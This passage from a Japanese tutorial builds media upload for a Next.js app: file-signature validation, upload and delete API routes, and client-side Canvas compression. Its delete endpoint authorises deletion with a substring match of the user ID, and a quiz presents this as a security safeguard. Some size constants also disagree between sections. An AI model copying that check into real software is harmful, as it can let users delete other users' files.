> - **FormData**: ファイルやテキストをまとめてHTTPリクエストで送信するためのコンテナ
>
> ```typescript
> const input = document.querySelector('input[type="file"]')
> const file = input.files[0]  // File オブジェクト
>
> const formData = new FormData()
> formData.append('image', file)  // FormDataに格納
>
> await fetch('/api/upload', {
>   method: 'POST',
>   body: formData  // サーバーに送信
> })
> ```

> **なぜバリデーションが重要？**
> バリデーション（検証）なしでファイルを受け入れると、以下のリスクがあります。
> - **巨大ファイル**: 100GBのファイルがアップロードされてストレージが枯渇
> - **不正なファイル形式**: 実行可能ファイル（.exe）がアップロードされてセキュリティリスクに
> - **偽装ファイル**: 拡張子だけjpgに変えた悪意のあるファイル

```typescript
// lib/file-validation.ts

import crypto from 'crypto'

// ファイル検証結果の型
export type FileValidationResult = {
  valid: boolean
  detectedType?: string   // 検出されたMIMEタイプ（成功時）
  error?: string          // エラーメッセージ（失敗時）
}

// 画像形式のMIMEタイプセット
export const IMAGE_MIME_TYPES = new Set([
  'image/jpeg',
  'image/png',
  'image/webp',
  'image/gif',
])

// 動画形式のMIMEタイプセット
export const VIDEO_MIME_TYPES = new Set([
  'video/mp4',
  'video/quicktime',
  'video/webm',
  'video/x-msvideo',
])

// validateImageFile: 画像ファイルのバリデーション
// MIMEタイプとファイルシグネチャ（マジックバイト）の両方をチェック
// buffer: ファイルのバイナリデータ
// claimedMimeType: クライアントが主張するMIMEタイプ
// allowedTypes: 許可するMIMEタイプの配列
export function validateImageFile(
  buffer: Buffer,
  claimedMimeType: string,
  allowedTypes: string[] = ['image/jpeg', 'image/png', 'image/webp']
): FileValidationResult {
  // 1. 主張されたMIMEタイプが許可リストにあるか
  if (!allowedTypes.includes(claimedMimeType)) {
    return {
      valid: false,
      error: `許可されていないファイル形式です。対応形式: ${allowedTypes.join(', ')}`,
    }
  }

  // 2. ファイルシグネチャから実際のタイプを検出
  const detectedType = detectFileType(buffer)

  if (!detectedType) {
    return {
      valid: false,
      error: 'ファイル形式を識別できません。有効な画像ファイルを選択してください',
    }
  }

  // 3. 検出されたタイプが許可リストにあるか
  if (!allowedTypes.includes(detectedType)) {
    return {
      valid: false,
      error: `ファイルの実際の形式（${detectedType}）は許可されていません`,
    }
  }

  return { valid: true, detectedType }
}

// validateVideoFile: 動画ファイルのバリデーション
export function validateVideoFile(
  buffer: Buffer,
  claimedMimeType: string,
  allowedTypes: string[] = ['video/mp4', 'video/quicktime', 'video/webm']
): FileValidationResult {
  if (!claimedMimeType.startsWith('video/')) {
    return { valid: false, error: '動画ファイルを選択してください' }
  }

  const detectedType = detectFileType(buffer)
  if (!detectedType || !VIDEO_MIME_TYPES.has(detectedType)) {
    return { valid: false, error: 'このファイルは有効な動画ファイルではありません' }
  }

  if (!allowedTypes.includes(detectedType)) {
    return {
      valid: false,
      error: `動画形式（${detectedType}）は対応していません。対応形式: ${allowedTypes.join(', ')}`,
    }
  }

  return { valid: true, detectedType }
}

// validateMediaFile: 画像/動画を自動判定して検証
export function validateMediaFile(
  buffer: Buffer,
  claimedMimeType: string
): FileValidationResult {
  if (claimedMimeType.startsWith('image/')) {
    return validateImageFile(buffer, claimedMimeType)
  }
  if (claimedMimeType.startsWith('video/')) {
    return validateVideoFile(buffer, claimedMimeType)
  }
  return { valid: false, error: '画像または動画ファイルを選択してください' }
}

// generateSafeFileName: パストラバーサル攻撃を防ぐ安全なファイル名を生成
// UUIDベースで元のファイル名を使用しない
export function generateSafeFileName(originalName: string, mimeType: string): string {
  const extensionMap: Record<string, string> = {
    'image/jpeg': 'jpg', 'image/png': 'png', 'image/webp': 'webp',
    'image/gif': 'gif', 'video/mp4': 'mp4', 'video/quicktime': 'mov',
    'video/webm': 'webm',
  }
  const extension = extensionMap[mimeType] || 'bin'
  const uuid = crypto.randomUUID()
  return `${uuid}.${extension}`
}

// detectFileType: ファイルの先頭バイト（マジックバイト）から実際のMIMEタイプを検出
// 拡張子の偽装を防ぐためのセキュリティ対策
export function detectFileType(buffer: Buffer): string | null {
  // ... ファイルシグネチャの検証ロジック（詳細は11.11節参照）
}
```

> **マジックバイト検証とは？**
> ファイルの先頭数バイトには、ファイル形式を示す固定のバイト列（シグネチャ）が含まれています。例えばJPEGファイルは必ず `FF D8 FF` で始まります。Content-Typeヘッダーだけでなくこの実データも検証することで、拡張子を偽装した悪意のあるファイルを検出できます。

> **マジックバイト検証の具体例**
> ファイルの拡張子（.jpg, .png等）は簡単に偽装できます。`malware.exe` を `photo.jpg` にリネームしても中身は実行ファイルです。
>
> マジックバイトは、ファイルの先頭数バイトに記録された「本当のファイル形式」です：
> - JPEG: `FF D8 FF`
> - PNG: `89 50 4E 47`
> - GIF: `47 49 46 38`
>
> サーバー側でマジックバイトを確認することで、拡張子を偽装した危険なファイルのアップロードを防ぎます。

### ステップ2: アップロードAPI Route

Next.jsのRoute Handlerとしてアップロードエンドポイントを実装します。

```typescript
// app/api/upload/route.ts

import { NextRequest, NextResponse } from 'next/server'
import { auth } from '@/lib/auth'
import { uploadFile } from '@/lib/storage'
import { checkUserRateLimit, checkDailyLimit } from '@/lib/rate-limit'
import {
  validateImageFile,
  validateVideoFile,
  generateSafeFileName,
} from '@/lib/file-validation'
import { MAX_IMAGE_SIZE, MAX_VIDEO_SIZE } from '@/lib/constants/limits'

// lib/constants/limits.ts で定義された定数:
// MAX_IMAGE_SIZE = 4 * 1024 * 1024  (4MB: サーバー側で受け付ける画像の上限)
// MAX_VIDEO_SIZE = 256 * 1024 * 1024 (256MB: プリサインドURL経由で直接R2に送れる動画の上限)

// POST: メディアアップロードエンドポイント
// リクエスト形式: multipart/form-data（FormDataオブジェクト）
export async function POST(request: NextRequest) {
  try {
    // ========================================
    // ステップ1: 認証チェック
    // ========================================
    const session = await auth()
    if (!session?.user?.id) {
      return NextResponse.json(
        { error: '認証が必要です' },
        { status: 401 }
      )
    }

    // ========================================
    // ステップ2: レート制限チェック
    // ========================================
    // 1分あたり・1日あたりのアップロード回数を制限
    const rateLimitResult = await checkUserRateLimit(session.user.id, 'upload')
    if (!rateLimitResult.success) {
      return NextResponse.json(
        { error: 'アップロードが多すぎます。しばらく待ってから再試行してください' },
        { status: 429 }
      )
    }

    const dailyLimitResult = await checkDailyLimit(session.user.id, 'upload')
    if (!dailyLimitResult.allowed) {
      return NextResponse.json(
        { error: `1日のアップロード上限（${dailyLimitResult.limit}回）に達しました` },
        { status: 429 }
      )
    }

    // ========================================
    // ステップ3: フォームデータの取得
    // ========================================
    const formData = await request.formData()
    const file = formData.get('file') as File

    if (!file) {
      return NextResponse.json(
        { error: 'ファイルが選択されていません' },
        { status: 400 }
      )
    }

    // ========================================
    // ステップ4: ファイルタイプ判定とサイズチェック
    // ========================================
    const isVideo = file.type.startsWith('video/')
    const isImage = file.type.startsWith('image/')

    if (!isVideo && !isImage) {
      return NextResponse.json(
        { error: '画像または動画ファイルを選択してください' },
        { status: 400 }
      )
    }

    const maxSize = isVideo ? MAX_VIDEO_SIZE : MAX_IMAGE_SIZE
    if (file.size > maxSize) {
      const maxSizeMB = maxSize / 1024 / 1024
      return NextResponse.json(
        { error: isVideo
            ? `動画は${maxSizeMB}MB以下にしてください`
            : `画像は${maxSizeMB}MB以下にしてください` },
        { status: 400 }
      )
    }

    // ========================================
    // ステップ5: ファイルシグネチャ検証（MIMEタイプ偽装防止）
    // ========================================
    const buffer = Buffer.from(await file.arrayBuffer())

    if (isImage) {
      const validation = validateImageFile(buffer, file.type)
      if (!validation.valid) {
        return NextResponse.json({ error: validation.error }, { status: 400 })
      }
    } else if (isVideo) {
      const validation = validateVideoFile(buffer, file.type)
      if (!validation.valid) {
        return NextResponse.json({ error: validation.error }, { status: 400 })
      }
    }

    // ========================================
    // ステップ6: ストレージにアップロード
    // ========================================
    // 安全なファイル名を生成（パストラバーサル防止）
    const safeFileName = generateSafeFileName(file.name, file.type)
    // フォルダはサーバー側で自動決定（クライアントからの指定は無視）
    const folder = isVideo ? 'post-videos' : 'post-images'

    const result = await uploadFile(buffer, safeFileName, file.type, folder)

    if (!result.success || !result.url) {
      return NextResponse.json(
        { error: result.error || 'アップロードに失敗しました' },
        { status: 500 }
      )
    }

    // ========================================
    // ステップ7: 成功レスポンスを返す
    // ========================================
    return NextResponse.json({
      success: true,
      url: result.url,
      type: isVideo ? 'video' : 'image',
    })
  } catch (error) {
    console.error('Media upload error:', error)
    return NextResponse.json(
      { error: 'アップロード中にエラーが発生しました。しばらく経ってから再試行してください' },
      { status: 500 }
    )
  }
}

// DELETE: 画像削除エンドポイント
// リクエスト形式: /api/upload?key=uploads/user123/photo.jpg
export async function DELETE(request: NextRequest) {
  try {
    // 認証チェック
    const session = await auth()
    if (!session?.user?.id) {
      return NextResponse.json(
        { error: '認証が必要です' },
        { status: 401 }
      )
    }

    // URLのクエリパラメータから削除対象のキーを取得
    const { searchParams } = new URL(request.url)
    const key = searchParams.get('key')

    if (!key) {
      return NextResponse.json(
        { error: 'キーが指定されていません' },
        { status: 400 }
      )
    }

    // ========================================
    // セキュリティチェック: 権限の確認
    // ========================================
    // キーにユーザーIDが含まれているか確認
    // キーの形式: "uploads/{userId}/xxx.jpg" なので、
    // 自分のIDが含まれていなければ他人のファイルを削除しようとしている
    if (!key.includes(session.user.id)) {
      return NextResponse.json(
        { error: '削除権限がありません' },
        { status: 403 }  // 403 Forbidden: 権限がない
      )
    }

    // ストレージから削除
    const { deleteFile } = await import('@/lib/storage')
    await deleteFile(key)

    return NextResponse.json({ success: true })
  } catch (error) {
    console.error('削除エラー:', error)
    return NextResponse.json(
      { error: '削除に失敗しました' },
      { status: 500 }
    )
  }
}
```

> **Sharpライブラリについて**
>
> Sharp は Node.js で最も高速な画像処理ライブラリです。内部的に libvips という C 言語で書かれた画像処理エンジンを使用しているため、Pure JavaScript のライブラリと比べて10〜100倍高速です。
>
> ```
> ```mermaid
> flowchart LR
>     A["入力画像<br/>JPEG/PNG<br/>4000x3000<br/>8MB"] --> B["リサイズ<br/>2000px幅"]
>     B --> C["WebP変換<br/>品質80%"]
>     C --> D["出力画像<br/>WebP<br/>2000x1500<br/>1.2MB"]
>
>     style A fill:#ffe1e1
>     style D fill:#e1ffe1
>
>     E["元: 8MB JPEG → 結果: 1.2MB WebP（85%削減）"]
>     style E fill:#fff9e1
> ```
> ```

### ステップ3: 依存パッケージのインストール

必要なパッケージをインストールします。

```bash
# AWS SDK: R2（S3互換）との通信に使用
# sharp: サーバー側での画像処理（リサイズ、フォーマット変換）に使用
npm install @aws-sdk/client-s3 sharp
```

> **注意: sharpのインストールでエラーが出る場合**
> sharpはネイティブモジュール（C言語で書かれたバイナリ）を含むため、環境によってはインストールに追加の依存関係が必要です。

| OS | 必要な追加作業 |
|----|-------------|
| Windows | 通常は問題なし。エラーが出たら `npm install --global windows-build-tools` |
| macOS | Xcode Command Line Toolsが必要: `xcode-select --install` |
| Linux | `apt-get install -y build-essential` が必要な場合あり |
| Docker | マルチプラットフォーム対応: `npm install --platform=linux sharp` |

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: `export const runtime = 'nodejs'` を指定する理由は？

**A1**: SharpライブラリはNode.jsのネイティブモジュールに依存しているため、Edge Runtimeでは動作しません。明示的に`nodejs`ランタイムを指定することで、サーバーサイドのNode.js環境で実行されることを保証します。

**Q2**: DELETEエンドポイントで`key.includes(session.user.id)`をチェックする理由は？

**A2**: ファイルキーには`uploads/{userId}/xxx.jpg`の形式でユーザーIDが含まれています。このチェックにより、ログイン中のユーザーが自分のファイルだけを削除できるようにしています。他人のファイルキーを指定して削除することを防ぐセキュリティ対策です。

**Q3**: 画像圧縮処理で`try-catch`を使い、エラー時に元のファイルを使う設計の利点は？

**A3**: これは「グレースフルデグラデーション（優雅な劣化）」というパターンです。画像圧縮はあくまで最適化なので、圧縮に失敗してもアップロード自体は成功させます。ユーザー体験を損なわないために、「できることはやるが、失敗しても最低限の機能は保証する」という考え方です。
</details>

## 11.5 クライアント側の画像圧縮

> **このセクションで学ぶこと**
> - なぜクライアント側でも圧縮するのか（二重圧縮の理由）
> - Canvas APIを使った外部ライブラリ不要の画像圧縮の仕組み
> - アスペクト比を維持したリサイズと反復的な品質調整
> - プリサインドURLを使った動画の直接アップロード

> **BON-LOGでの使用箇所**
> `lib/client-image-compression.ts` として実装済みです。`hooks/use-media-upload.ts` の `prepareFileForUpload()` 呼び出しを通じて、投稿（`PostForm`）、コメント（`CommentForm`）、レビュー（`ReviewForm`）のすべての画像アップロードで使用されています。

### なぜクライアント側でも圧縮するのか

セクション11.4でサーバー側の圧縮を実装しましたが、**クライアント側でも圧縮する**理由があります。

```

```

**日常の例え**: 引っ越し荷物を宅配便で送る前に、自分である程度整理・圧縮してから梱包するのと同じです。宅配業者（サーバー）でも最終的な整理はしてくれますが、事前に減らしておけば送料（通信量）も安く、配達（アップロード）も早くなります。

> **実装しない場合の影響**
> クライアント側圧縮を省略すると、スマートフォン撮影の高解像度画像（8〜15MB）がそのままVercelサーバーに送られます。Vercelの4.5MBペイロード制限に引っかかってアップロードが失敗するか、大容量のネットワーク転送でユーザー体験が著しく低下します。

### BON-LOGの実装: Canvas APIを使ったゼロ依存圧縮

BON-LOGでは、外部ライブラリを使わず**ブラウザ標準のCanvas API**で画像圧縮を実装しています。`lib/client-image-compression.ts` がその実装です。

```typescript
// lib/client-image-compression.ts

import {
  MAX_IMAGE_SIZE_BEFORE_COMPRESSION, // 10MB: クライアントが受け付ける入力上限
  SKIP_COMPRESSION_THRESHOLD,        // 500KB: これ以下は圧縮をスキップ
  MAX_IMAGE_DIMENSION,               // 1920: 最大幅/高さ（px）
  DEFAULT_IMAGE_QUALITY,             // 0.8: JPEG品質の初期値
  COMPRESSION_QUALITY_FACTOR,        // 0.7: 1回のリトライで品質を何倍に下げるか
  MAX_COMPRESSION_RETRIES,           // 3: 目標サイズに収まるまでのリトライ上限
  DEFAULT_COMPRESSION_MAX_SIZE_MB,   // 1: 目標サイズ（MB）
} from '@/lib/constants/limits'

export interface CompressionOptions {
  maxSizeMB?: number         // 目標ファイルサイズ（MB）
  maxWidthOrHeight?: number  // 最大幅または高さ（px）
  quality?: number           // JPEG品質（0〜1）
}

export interface CompressionResult {
  file: File            // 圧縮後のファイル
  originalSize: number  // 元のサイズ（バイト）
  compressedSize: number // 圧縮後のサイズ（バイト）
  compressionRatio: number // 圧縮率（%）
}

/**
 * Canvas APIを使って画像を圧縮する
 * - 外部ライブラリ不要（ブラウザ標準APIのみ使用）
 * - 数十〜数百ミリ秒で完了（高速）
 * - 目標サイズに収まるまで品質を下げながらリトライ
 */
export async function compressImage(
  file: File,
  options: CompressionOptions = {}
): Promise<CompressionResult> {
  const mergedOptions = {
    maxSizeMB: DEFAULT_COMPRESSION_MAX_SIZE_MB,   // デフォルト: 1MB
    maxWidthOrHeight: MAX_IMAGE_DIMENSION,         // デフォルト: 1920px
    quality: DEFAULT_IMAGE_QUALITY,               // デフォルト: 0.8
    ...options,
  }
  const originalSize = file.size

  // 小さいファイルは圧縮をスキップ（500KB以下）
  if (originalSize <= SKIP_COMPRESSION_THRESHOLD) {
    return { file, originalSize, compressedSize: originalSize, compressionRatio: 0 }
  }

  // 1. 画像をImageElementとしてロード
  const img = await loadImage(file)

  // 2. アスペクト比を維持してリサイズ後の寸法を計算
  const { width, height } = calculateDimensions(
    img.width, img.height, mergedOptions.maxWidthOrHeight
  )

  // 3. Canvasで描画
  const canvas = document.createElement('canvas')
  canvas.width = width
  canvas.height = height
  const ctx = canvas.getContext('2d')!
  ctx.imageSmoothingEnabled = true
  ctx.imageSmoothingQuality = 'high'
  ctx.drawImage(img, 0, 0, width, height)

  // 4. 目標サイズに収まるまで品質を下げながらリトライ
  const targetSize = mergedOptions.maxSizeMB * 1024 * 1024
  let quality = mergedOptions.quality
  let blob: Blob | null = null

  for (let i = 0; i < MAX_COMPRESSION_RETRIES; i++) {
    blob = await canvasToBlob(canvas, 'image/jpeg', quality)
    if (blob.size <= targetSize) break
    quality *= COMPRESSION_QUALITY_FACTOR  // 品質を70%に下げる
  }

  const fileName = file.name.replace(/\.[^/.]+$/, '') + '.jpg'
  const compressedFile = new File([blob!], fileName, { type: 'image/jpeg' })
  const compressedSize = compressedFile.size
  const compressionRatio = Math.max(0, Math.round((1 - compressedSize / originalSize) * 100))

  return { file: compressedFile, originalSize, compressedSize, compressionRatio }
}

// 画像をImageElementとしてロード（URL.createObjectURL を使用）
function loadImage(file: File): Promise<HTMLImageElement> {
  return new Promise((resolve, reject) => {
    const img = new Image()
    img.onload = () => { URL.revokeObjectURL(img.src); resolve(img) }
    img.onerror = () => { URL.revokeObjectURL(img.src); reject(new Error('Failed to load image')) }
    img.src = URL.createObjectURL(file)
  })
}

// アスペクト比を維持してリサイズ後の寸法を計算
function calculateDimensions(
  width: number, height: number, maxSize: number
): { width: number; height: number } {
  if (width <= maxSize && height <= maxSize) return { width, height }
  if (width > height) {
    return { width: maxSize, height: Math.round((height / width) * maxSize) }
  } else {
    return { width: Math.round((width / height) * maxSize), height: maxSize }
  }
}

// Canvas.toBlob をPromise化
function canvasToBlob(canvas: HTMLCanvasElement, type: string, quality: number): Promise<Blob> {
  return new Promise((resolve, reject) => {
    canvas.toBlob(
      (blob) => blob ? resolve(blob) : reject(new Error('Failed to create blob')),
      type,
      quality
    )
  })
}
```

> **なぜCanvas APIか？ (vs browser-image-compression)**
> Canvas APIはすべてのモダンブラウザに標準搭載されているため、追加パッケージが不要です。bundle sizeを増やさず、CDNへの依存もなく、オフライン環境でも動作します。処理はメインスレッドで数十〜数百ミリ秒で完了するため、Web Workerは不要です。

> **URL.createObjectURL と URL.revokeObjectURL**
> `createObjectURL`はメモリ上にファイルへの参照URLを作成します。使い終わったら`revokeObjectURL`で解放しないと、ページが閉じるまでメモリが占有され続けます（メモリリーク）。`onload`と`onerror`の両方で確実に解放しましょう。

### ファイルサイズ定数の全体像

`lib/constants/limits.ts` に定義された定数が、クライアント〜サーバー間の一貫したサイズ管理を実現しています。

| 定数 | 値 | 役割 |
|------|----|------|
| `MAX_IMAGE_SIZE_BEFORE_COMPRESSION` | 10MB | クライアントが受け付ける入力画像の上限（これを超えたらエラー） |
| `SKIP_COMPRESSION_THRESHOLD` | 500KB | これ以下のファイルは圧縮せずそのまま使用 |
| `MAX_IMAGE_DIMENSION` | 1920px | 圧縮後の最大幅/高さ |
| `DEFAULT_IMAGE_QUALITY` | 0.8 | JPEG圧縮の初期品質（80%） |
| `COMPRESSION_QUALITY_FACTOR` | 0.7 | リトライごとに品質を何倍に下げるか |
| `MAX_COMPRESSION_RETRIES` | 3 | 品質調整のリトライ上限回数 |
| `DEFAULT_COMPRESSION_MAX_SIZE_MB` | 1MB | 圧縮後の目標サイズ |
| `MAX_IMAGE_SIZE` | 4MB | サーバー側が受け付ける画像の上限（Vercel制限対策） |
| `MAX_VIDEO_SIZE` | 256MB | プリサインドURL経由で直接R2に送れる動画の上限 |
| `PRESIGNED_URL_EXPIRY_SECONDS` | 3600 | 動画用プリサインドURLの有効期限（1時間） |

### useMediaUpload フック: 圧縮とアップロードの統合

`hooks/use-media-upload.ts` は、画像圧縮・XHRアップロード・動画プリサインドURL処理を統合したカスタムフックです。

```typescript
// hooks/use-media-upload.ts（抜粋）
'use client'

import { prepareFileForUpload, isVideoFile, MAX_IMAGE_SIZE, MAX_VIDEO_SIZE, uploadVideoToR2 } from '@/lib/client-image-compression'

export function useMediaUpload(options: UseMediaUploadOptions): UseMediaUploadReturn {
  const uploadFile = useCallback(async (file: File) => {
    const isVideo = isVideoFile(file)

    // ファイルサイズチェック（圧縮前）
    if (!isVideo && file.size > MAX_IMAGE_SIZE) {  // MAX_IMAGE_SIZE = 10MB（入力上限）
      onError(`画像は${MAX_IMAGE_SIZE / 1024 / 1024}MB以下にしてください`)
      return
    }

    if (isVideo) {
      // 動画: プリサインドURL経由でR2に直接アップロード
      const result = await uploadVideoToR2(file, videoUploadPath, setUploadProgress)
      if (result.url) onUploadComplete({ url: result.url, type: 'video' })
    } else {
      // 画像: Canvas APIで圧縮してから /api/upload にXHR送信
      const fileToUpload = await prepareFileForUpload(file, {
        maxSizeMB: 1,         // 目標: 1MB以下
        maxWidthOrHeight: 1920, // 最大寸法: 1920px
      })

      const formData = new FormData()
      formData.append('file', fileToUpload)

      // XHRで進捗を追跡しながらアップロード
      const xhr = new XMLHttpRequest()
      xhr.upload.addEventListener('progress', (event) => {
        if (event.lengthComputable) {
          setUploadProgress(Math.round((event.loaded / event.total) * 100))
        }
      })
      xhr.open('POST', '/api/upload')
      xhr.send(formData)
    }
  }, [...])
}
```

### 動画のプリサインドURLアップロード

`lib/client-image-compression.ts` の `uploadVideoToR2()` が動画アップロードを担当します。

```typescript
// lib/client-image-compression.ts（uploadVideoToR2 抜粋）

export async function uploadVideoToR2(
  file: File,
  folder: string = 'posts',
  onProgress?: (progress: number) => void
): Promise<VideoUploadResult> {
  // 1. サイズチェック（MAX_VIDEO_SIZE = 256MB）
  if (file.size > MAX_VIDEO_SIZE) {
    return { error: `動画は${MAX_VIDEO_SIZE / 1024 / 1024}MB以下にしてください` }
  }

  // 2. /api/upload/presigned でプリサインドURLを取得
  const presignedResponse = await fetch('/api/upload/presigned', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ contentType: file.type, fileSize: file.size, folder }),
  })
  const { presignedUrl, fileUrl } = await presignedResponse.json()

  // 3. XMLHttpRequest で R2 に直接 PUT アップロード（進捗追跡付き）
  return new Promise((resolve) => {
    const xhr = new XMLHttpRequest()
    xhr.upload.addEventListener('progress', (event) => {
      if (event.lengthComputable && onProgress) {
        onProgress(Math.round((event.loaded / event.total) * 100))
      }
    })
    xhr.addEventListener('load', () => {
      if (xhr.status >= 200 && xhr.status < 300) {
        resolve({ url: fileUrl })  // R2に保存されたURLを返す
      } else {
        resolve({ error: 'アップロードに失敗しました' })
      }
    })
    xhr.open('PUT', presignedUrl)
    xhr.setRequestHeader('Content-Type', file.type)
    xhr.send(file)
  })
}
```

> **`/api/upload/presigned` の動作**
> このエンドポイントはAWS SDK の `@aws-sdk/s3-request-presigner` を使って `PutObjectCommand` に署名します。認証・レート制限（5回/分、50回/日）・MIMEタイプ検証（mp4/quicktime/webm）・サイズ検証（256MB以下）を行い、`{ presignedUrl, fileUrl, key }` を返します。

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: クライアント側とサーバー側の両方で画像処理を行う理由は？

**A1**: クライアント側での圧縮は主に「通信量の削減とVercel制限回避」が目的です。8MBのファイルを1MB以下に圧縮してからアップロードすることで、転送時間・モバイルデータ通信量を節約し、Vercelの4.5MBペイロード制限を回避します。サーバー側での処理は「最終的な品質調整とフォーマット変換」が目的で、Sharpなどでのリサイズ・WebP変換を行います。

**Q2**: Canvas APIを使って圧縮する際に `canvasToBlob` をPromise化している理由は？

**A2**: ブラウザの `HTMLCanvasElement.toBlob()` はコールバックスタイルのAPIです。これをPromise化することで、`await canvasToBlob(canvas, 'image/jpeg', quality)` のように `async/await` で書けるようになり、品質を下げながらリトライするループを直感的に書けます。

**Q3**: 動画アップロードでXHRを使う理由は？ fetchでは駄目ですか？

**A3**: `fetch` APIはストリーミング進捗追跡を標準サポートしていません（一部の新しいブラウザでは `ReadableStream` を使えますが互換性が低い）。`XMLHttpRequest` の `xhr.upload.addEventListener('progress', ...)` を使うことで、確実にアップロード進捗をパーセントで取得でき、プログレスバーを更新できます。
</details>

## 11.6 画像アップロードコンポーネント

> **このセクションで学ぶこと**
> - 再利用可能なReactコンポーネントの設計方法
> - `useRef`を使った隠しファイル入力の制御
> - アップロード進捗の計算と表示
> - プレビュー画像の管理（追加と削除）
> - コールバックパターンによる親コンポーネントとの連携

### ファイルアップロードパイプライン

ユーザーが画像を選択してからR2に保存されるまでの完全なパイプラインを理解しましょう。



### コンポーネントの全体設計

再利用可能な画像アップロードコンポーネントを実装します。このコンポーネントは、投稿画面・プロフィール設定・盆栽園レビューなど、画像アップロードが必要なあらゆる場面で使用できます。

```

```

```typescript
// components/upload/ImageUpload.tsx
'use client'  // クライアントコンポーネント（useState, useRefなどのHooksを使用するため）

// React のフックとイベント型をインポート
import { useState, useRef, ChangeEvent } from 'react'
// Next.js の最適化された Image コンポーネント
import Image from 'next/image'
// lucide-react: アイコンライブラリ
import { Upload, X, Loader2 } from 'lucide-react'
// shadcn/ui の Button コンポーネント
import { Button } from '@/components/ui/button'
// クライアント側圧縮ユーティリティ（参考実装: 必要に応じて自作）
// import { compressImage, createImagePreview } from '@/lib/utils/client-image-compression'
// ファイルバリデーションはサーバー側で実施（lib/file-validation.ts）
// クライアント側では基本的なサイズ・タイプチェックのみ行う

// ImageUploadProps: このコンポーネントが受け取るpropsの型定義
// コールバック関数を通じて、親コンポーネントとデータをやり取りする
interface ImageUploadProps {
  onUpload: (url: string) => void       // アップロード成功時に呼ばれるコールバック（URLを渡す）
  onError?: (error: string) => void     // エラー時に呼ばれるコールバック（省略可能）
  folder?: string                        // 保存先フォルダ（デフォルト: 'uploads'）
  maxFiles?: number                      // 最大アップロード枚数（デフォルト: 1）
  compress?: boolean                     // クライアント側圧縮の有無（デフォルト: true）
  aspectRatio?: number                   // プレビューのアスペクト比（例: 16/9, 1/1）
  className?: string                     // 追加のCSSクラス
}

export function ImageUpload({
  onUpload,
  onError,
  folder = 'uploads',      // デフォルト値の設定
  maxFiles = 1,
  compress = true,
  aspectRatio,
  className = '',
}: ImageUploadProps) {
  // previews: プレビュー画像のDataURL配列（ブラウザ上の一時表示用）
  const [previews, setPreviews] = useState<string[]>([])
  // uploading: アップロード処理中かどうかのフラグ
  const [uploading, setUploading] = useState(false)
  // uploadProgress: アップロード進捗（0〜100%）
  const [uploadProgress, setUploadProgress] = useState(0)

  // fileInputRef: 隠された<input type="file">要素への参照
  // なぜ隠す？ → デフォルトのファイル入力UIはブラウザごとに見た目が異なるため、
  //              カスタムボタンから click() メソッドで間接的にファイル選択を開く
  const fileInputRef = useRef<HTMLInputElement>(null)

  // handleFileChange: ファイルが選択された時の処理
  // ファイル選択 → バリデーション → 圧縮 → アップロード → プレビュー更新
  const handleFileChange = async (e: ChangeEvent<HTMLInputElement>) => {
    const files = e.target.files
    // ファイルが選択されなかった場合は何もしない
    if (!files || files.length === 0) return

    // 選択されたファイルを配列に変換し、残りアップロード可能数まで切り詰める
    // 例: 既に2枚アップロード済みで maxFiles=4 なら、新たに2枚まで
    const newFiles = Array.from(files).slice(0, maxFiles - previews.length)

    // ========================================
    // バリデーション: 全ファイルを事前チェック
    // ========================================
    for (const file of newFiles) {
      // クライアント側では基本的なチェックのみ（詳細なシグネチャ検証はサーバー側で実施）
      const validation = validateFileBasic(file)
      if (!validation.valid) {
        // 1つでも不正なファイルがあればエラーを通知して中断
        onError?.(validation.error!)
        return
      }
    }

    try {
      setUploading(true)  // ローディング状態をONに
      const newPreviews: string[] = []

      // 各ファイルを順番に処理
      for (let i = 0; i < newFiles.length; i++) {
        const file = newFiles[i]
        // 進捗: 前半50%はプレビュー生成+圧縮、後半50%はアップロード
        setUploadProgress(((i + 1) / newFiles.length) * 50)

        // プレビュー用DataURLを生成（サーバーに送る前にブラウザで表示するため）
        const preview = await createImagePreview(file)
        newPreviews.push(preview)

        // クライアント側圧縮（compress=trueの場合のみ）
        const fileToUpload = compress ? await compressImage(file) : file

        // 進捗を後半に更新
        setUploadProgress(50 + ((i + 1) / newFiles.length) * 50)

        // ========================================
        // サーバーへアップロード
        // ========================================
        // FormDataオブジェクトを構築（multipart/form-data形式で送信するため）
